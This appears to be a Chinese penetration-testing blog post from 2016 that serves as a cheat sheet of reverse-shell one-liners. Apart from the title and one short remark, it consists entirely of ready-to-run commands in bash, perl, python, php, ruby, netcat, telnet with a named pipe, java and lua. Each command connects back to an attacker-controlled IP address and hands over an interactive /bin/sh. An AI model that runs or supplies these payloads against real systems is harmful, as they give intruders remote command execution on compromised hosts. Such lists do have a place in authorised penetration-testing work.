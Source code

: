 ```yaml
---
title: 渗透过程中的端口反弹
date: 2016-03-28 13:17:47
tags:
---
```

反弹

	反弹的各种姿势。

-------------------
### bash版本：
``` bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
注意这个是由解析shell的bash完成，所以某些情况下不支持
###perl版本:
```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
###python版本:
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
<!-- more -->
###php版本：
```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
###ruby版本：
```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
###nc版本：
```bash
nc -e /bin/sh 223.8.200.234 1234
```
###nc不使用-e：
```bash
mknod /tmp/backpipe p
/bin/sh 0</tmp/backpipe | nc attackerip listenport 1>/tmp/backpipe
```
###mknod:
```bash
mknod backpipe p && telnet 173.214.173.151 8080 0backpipe
```
###java版本：
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/202.103.243.122/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
###lua版本：
```bash
lua -e "require('socket');require('os');t=socket.tcp();t:connect('202.103.243.122','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```
